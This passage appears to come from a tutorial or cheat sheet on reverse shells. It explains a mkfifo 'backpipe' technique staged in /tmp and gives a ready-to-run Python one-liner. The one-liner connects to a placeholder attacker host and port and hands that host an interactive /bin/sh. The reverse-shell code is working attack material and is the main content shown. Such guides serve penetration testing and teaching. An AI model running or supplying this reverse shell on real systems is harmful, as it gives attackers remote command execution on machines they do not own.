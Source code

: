 ![rev](images/rev-shell15.png)    

Here, We've first created a named pipe (AKA FIFO) called `p` using the `mkfifo` command. The `mkfifo` command will create things in the file system, and here use it as a *“backpipe”* that is of type `p`, which is a named pipe. This FIFO will be used to shuttle data back to our shell’s input. We created our backpipe in `/tmp` because pretty much any account is allowed to write there.

**3. Python**

To create a semi-interactive shell using python, run:    

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![rev shell](images/rev-shell16.png)    
